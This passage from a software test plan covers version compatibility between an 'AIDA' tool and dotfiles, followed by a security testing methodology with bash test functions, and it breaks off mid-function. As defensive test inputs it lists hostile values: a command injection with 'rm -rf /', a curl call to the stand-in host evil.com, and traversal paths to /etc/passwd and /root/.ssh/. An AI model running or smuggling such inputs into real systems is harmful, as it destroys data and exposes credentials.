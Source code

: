 **Test Matrix**:

| AIDA Version | Dotfiles Version | Expected Result | Test Scenario |
|--------------|------------------|-----------------|---------------|
| 0.1.1        | 0.1.0            | Warning + Continue | Minor mismatch |
| 0.2.0        | 0.1.0            | Error + Abort | Major mismatch |
| 0.1.1        | 0.1.1            | Success | Exact match |
| Not installed| Any              | Graceful fallback | AIDA optional |
| 0.1.1        | 0.1.2            | Success | Dotfiles newer |

### Security Testing Methodology

**Attack Vectors to Test**:

1. **Command Injection**
   - Input: `version="1.0; rm -rf /"`
   - Input: `path="/tmp/../../../etc/passwd"`
   - Input: `name="test$(curl evil.com)"`

2. **Path Traversal**
   - Input: `~/.aida/../../../etc/passwd`
   - Input: `/tmp/test/../../root/.ssh/`
   - Input: Symlinks pointing outside allowed directories

3. **Variable Injection**
   - Unquoted variables in shell commands
   - Unsanitized user input in `eval` or command substitution
   - Environment variable pollution

**Security Test Implementation**:

```bash
# Test: Command injection in version string
test_version_command_injection() {
  local malicious_version='0.1.0; echo "PWNED" > /tmp/pwned'

  # Should NOT execute the echo command
  if validate_version "$malicious_version"; then
    fail "Command injection vulnerability"
  fi

  # Verify injection didn't execute
  [[ ! -f /tmp/pwned ]] || fail "Command was executed"
}

# Test: Path traversal in library sourcing
test_path_traversal_sourcing() {
  local malicious_path="~/.aida/lib/../../etc/passwd"

  # Should fail validation
  if validate_library_path "$malicious_path"; then
    fail "Path traversal vulnerability"
  fi
}

# Test: Symlink attacks
test_symlink_attacks() {
  local attack_dir="/tmp/symlink-attack"
  mkdir -p "$attack_dir"
  ln -s /etc/passwd "$attack_dir/VERSION"

  # Should detect and reject symlink outside allowed path
  if source_version_file "$attack_dir/VERSION"; then
```